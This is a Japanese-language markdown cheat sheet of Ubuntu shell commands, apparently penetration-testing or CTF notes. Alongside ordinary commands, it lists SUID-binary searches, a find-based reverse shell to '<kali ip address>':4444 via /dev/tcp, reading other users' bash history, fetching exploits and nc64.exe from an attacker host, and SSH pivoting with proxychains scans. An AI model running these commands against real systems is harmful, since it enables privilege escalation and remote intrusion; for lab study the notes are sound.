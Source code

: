# ubuntu bash

* ファイル指定

``` shell
  # 便利
  # $(which XXX)
  cp $(which find) /tmp/find
```

* パスワード変更

    ```shell
      passwd [USER_NAME]
    ```

* ユーザ情報

  ``` shell
    id
  ```

* sudo
  
    ``` shell
      #sudoの情報表示
      sudo -l
    ```

* find

``` shell
  #sudo設定のファイルを検索
  find / -perm -4000
  #または
  find / -type f -perm -4000 -ls 2>/dev/null
  #コマンド実行
  find ~/.profile -exec /bin/bash -p -i >& /dev/tcp/<kali ip address>/4444 0>&1 \; -quit
```

* cat

``` shell
  #過去の入力情報の表示
  cat /home/XXX/.bash_history
```

* grep
  
    ```shell
      #階層検索
      grep -r
      #よく使う
      ls -l | grep -re XXXX -re YYY
      # 該当するファイル名表示
      grep -l
      # nseスクリプトで脆弱性検索
      grep <app_name> -rl /usr/share/nmap/scripts/ 
    ```

* egrep

    ``` shell
      # 実行されているOSバージョンを表示
      ls /etc | egrep -e "fedore*|debian*|gentoo*|mandriva*|mandrake*|meego*|redhat*|lsb-*|sun-*|SUSE*|release"
    ```

* wget
  * ダウンロード

  ``` shell
    # ダウンロード
    wget https://www.exploit-db.com/download/XXXXXX -O filename
  ```
  
  * 自前のwebサーバーからファイルをダウンロードさせる。

  ``` shell
      # Web server
      python -m http.server 8000
      # 転送
      # wget -O [転送先] [転送するファイル]
      wget -O /tmp/XXX http://XXX.XXX.XXX.XXX:8000/filename
  ```

* curl

``` shell
    #curlでファイル転送
    curl http://<Remote KaliのIP>:8000/nc64.exe -o nc64.exe
```

* pythonの仮想環境
  
  ``` bash
      #仮想環境の作成
      python3 -m venv myenv
      #仮想環境の有効か
      source myenv/bin/activate
      #仮想環境内でパッケージインストール
      pip install <package_name>
      #作業後仮想環境を無効化
      deactivate
  ```

* マウントされているボリュームの取得
  
  ``` shell
    mount
  ```

* xfreerdp

``` shell
  xfreerdp /u:win /p:password /v:127.0.0.1
```

* ssh

``` shell
  ssh -i /home/XXX/.ssh/id_rsa <user_name>@XXX.XXX.XXX.XXX -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null

  # port forwarding
  ssh -N -L <localport>:<remoteXXX.XXX.XXX.XXX>:<remote_port> <踏み台user>@<踏み台XXX.XXX.XXX.XXX.>
  
  # dynamic port forwarding
  ssh -fND 127.0.0.1:8080
  #proxy経由でターゲットへのnmapスキャン
  proxychains nmap -top-ports=20 -sT -Pn XXX.XX.XXX.XXX
```

* cron

  ``` shell
      # 設定確認
      cat /etc/crontab
      #　登録
      crontab -u <ユーザ名> -e    
  ```

* sftp
  
``` shell
    # sftp -i <秘密鍵> -P 8080 <ユーザ>@localhost
    sftp -i /home/kali/id_rsa -P 8080 testuser@localhost
    #接続後 ファイルを自分の端末に転送
    get /C:/Users/testuser/Desktop/Pentest/flag.txt
```
